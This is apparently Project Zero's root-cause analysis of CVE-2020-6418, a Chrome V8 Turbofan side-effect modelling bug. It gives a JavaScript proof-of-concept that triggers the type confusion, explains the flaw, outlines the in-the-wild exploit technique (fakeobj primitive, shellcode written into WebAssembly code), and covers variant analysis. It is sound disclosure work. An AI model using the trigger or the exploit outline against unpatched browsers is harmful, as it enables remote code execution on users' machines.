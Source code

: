 # CVE-2020-6418: Chrome incorrect side-effect modelling issue in Turbofan leading to type confusions
*Samuel Groß and Sergei Glazunov, Project Zero (Originally posted on [Project Zero blog](https://googleprojectzero.blogspot.com/p/rca.html) 2020-08-05)*

## The Basics

**Disclosure or Patch Date:** 24 February 2020

**Product:** Google Chrome

**Advisory:** https://chromereleases.googleblog.com/2020/02/stable-channel-update-for-desktop_24.html

**Affected Versions:** Google Chrome 60 - 80

**First Patched Version:** 80.0.3987.122

**Issue/Bug Report:** https://bugs.chromium.org/p/chromium/issues/detail?id=1053604

**Patch CL:** https://chromium.googlesource.com/v8/v8.git/+/fb0a60e15695466621cf65932f9152935d859447

**Bug-Introducing CL:** https://chromium.googlesource.com/v8/v8.git/+/0f716acadaed1d9e194593543dbe1340d600d6fc

**Reporter(s):** Clément Lecigne of Google's Threat Analysis Group

## The Code

**Proof-of-concept:**

```javascript
'use strict';
(function() {
  var popped;

  function trigger(new_target) {
    function inner(new_target) {
      function constructor() {
        popped = Array.prototype.pop.call(array);
      }
      var temp = array[0];
      return Reflect.construct(constructor, arguments, new_target);
    }

    inner(new_target);
  }

  var array = new Array(0, 0, 0, 0, 0);

  for (var i = 0; i < 20000; i++) {
    trigger(function() { });
    array.push(0);
  }

  var proxy = new Proxy(Object, {
    get: () => (array[4] = 1.1, Object.prototype)
  });
 
  trigger(proxy);
  print(popped);
}());
```

**Exploit sample:** N/A

**Did you have access to the exploit sample when doing the analysis?** Yes

## The Vulnerability

**Bug class:** Incorrect side-effect modelling in JIT Compiler

**Vulnerability details:**

The function [NodeProperties::InferReceiverMapsUnsafe](https://source.chromium.org/chromium/chromium/src/+/master:v8/src/compiler/node-properties.cc;drc=04ea8adc20fdf4e6dba9885781d415dcf851b153;bpv=1;bpt=1;l=337?originalUrl=https:%2F%2Fcs.chromium.org%2F) is responsible for inferring the Map of an object. From the source code documentation: "This information can be either 'reliable', meaning that the object is guaranteed to have one of these maps at runtime, or 'unreliable', meaning that the object is guaranteed to have HAD one of these maps". In the latter case, the caller has to ensure that the object has the correct type, either by using `CheckMap` nodes or `CodeDependencies`.


On a high level, the `InferReceiverMapsUnsafe` function traverses the effect chain until it finds the node creating the object in question and, at the same time, marks the result as unreliable if it encounters a node without the `kNoWrite` flag, indicating that executing the node could have side-effects such as changing the Maps of an object. There is a mistake in the handling of `kJSCreate`: if the object in question is not the output of `kJSCreate`, then the loop continues without marking the result as unreliable. This is incorrect because `kJSCreate` can have side-effects, for example by using a Proxy as third argument to `Reflect.construct`. The bug can then for example be triggered by inlining `Array.pop` and changing the elements' kind from `SMIs` to `Doubles` during the unexpected side effect.

Normally, this bug class occurs due to mis-modelling of an operation in the JIT compiler. However, this time the modelling was correct (the `JSCreate` function was correctly marked as having side effects), however, the specific piece of code relying on this data was incorrect as it had special-cased the `JSCreate` operation and then forgot to perform the side-effect modelling.

**Patch analysis:** N/A

**Thoughts on how this vuln might have been found _(fuzzing, code auditing, variant analysis, etc.)_:**

JIT side-effect related bugs are likely hard to discover through generic JavaScript engine fuzzing approaches, as, without [specific compiler instrumentation](https://github.com/mozilla/gecko-dev/commit/4ca7a9d3ee9c7fe0d432bd3d3e251238a6f71721), they don’t normally result in observable misbehaviour at runtime (i.e., a crash). Given that the vulnerable function is clearly security-critical, it is thus more likely that the bug was discovered through manual code analysis while looking for type inference related issues.

**(Historical/present/future) context of bug:** 

JIT side effect modelling issues have been found and exploited in all major engines in the past years.

This vulnerability was chained with both Windows 0-days ([CVE-2020-0938](CVE-2020-0938.md), [CVE-2020-1020](CVE-2020-1020.md), [CVE-2020-1027](CVE-2020-1027.md) and Android n-days as a part of a watering hole attack.

## The Exploit

**Is the exploit method known?** Yes

**Exploit method:**

The attacker abused the unexpected side-effect to cause type confusion between the floating-point and tagged pointer array types, which allowed them to implement the `fakeobj` primitive. `fakeobj` makes the JavaScript engine treat an arbitrary value as a pointer to a JavaScript object. The attacker constructed a “fake” typed array and used it to overwrite the machine code of a compiled WebAssembly function with their shellcode.

## The Next Steps

### Variant analysis

**Areas/approach for variant analysis (and why):**

Manual auditing for similar issues in the same function and related ones. A more generic approach would be to build compiler instrumentation to detect unexpected side effects at runtime and abort early.

**Found variants:** None

### Structural improvements

N/A. This bug seems to be somewhat unique (at least it’s quite different from all the other side-effect mis-modelling bugs we can think of) and thus probably not much can be done in terms of generic/structural improvements.

### 0-day detection methods

These types of exploits are likely hard to detect generically.

## Other References 

* January 2021: [“In The Wild: Chrome exploits”](https://googleprojectzero.blogspot.com/2021/01/in-wild-series-chrome-exploits.html) blogpost
* May 2019: ["Exploiting Logic Bugs in JavaScript JIT Engines"](http://www.phrack.org/papers/jit_exploitation.html) by @saelo